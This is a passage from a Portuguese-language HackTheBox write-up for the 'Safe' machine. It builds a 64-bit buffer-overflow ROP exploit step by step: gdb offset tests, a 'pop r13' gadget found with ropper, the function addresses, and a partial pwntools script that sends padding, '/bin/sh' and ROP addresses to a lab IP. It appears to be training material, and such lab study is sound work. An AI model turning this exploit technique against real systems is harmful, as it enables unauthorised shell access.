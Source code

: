 Agora vamos testar enviando 112 + 8 Bytes, pra verificar onde esses 8 bytes vão

Opa! Podemos ver BBBBBBBB no RBP

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-safe/S_ge7.png)

Agora geramos um de 120 + 8 Bytes

Podemos ver que ele sobrescreveu o RSP, perfeito, é onde queremos colocar nosso /bin/sh para ser executado pela system()

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-safe/S_ge8.png)

Vamos procurar um JMP para R13 agora, pq queremos bypassar essa 'verificação' que ele faz, queremos jogar direto nosso /bin/sh após o R13, função system() executar o shell

> ropper --search 'pop r13'

```
r13 - 0x0000000000401206
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-safe/S_ge9.png)

### Montando o exploit

Agora mais ou menos entendemos o que deve ser feito, então vamos montar nosso exploit para execução

Devemos pegar os endereços da main, do system() e da test

> disas main

No próprio gdb conseguimos esses dados

```
main - 0x000000000040115f
system - 0x000000000040116e
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-safe/S_ge10.png)

> disas test

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-safe/S_ge11.png)

```
test - 0x0000000000401152
```

exploit.py
```
from pwn import *

# Abrir a conexão remota
p = remote('10.10.10.147',1337)

# Mandar 'lixo' para a aplicacao, sera 112 pois eh onde a aplicacao da crash, os outros 8 bytes serao /bin/sh
lixo = ("A" * 112).encode()

# Oito caracteres, tamanho do nosso payload, que queremos que seja injetado
shell = "/bin/sh\x00".encode()

# Localizacao da chamada da funcao system da aplicacao
system = p64(0x40116e)

# Endereco de memoria do jmp r13
pop_r13 = p64(0x401206)
null = p64(0x0)

```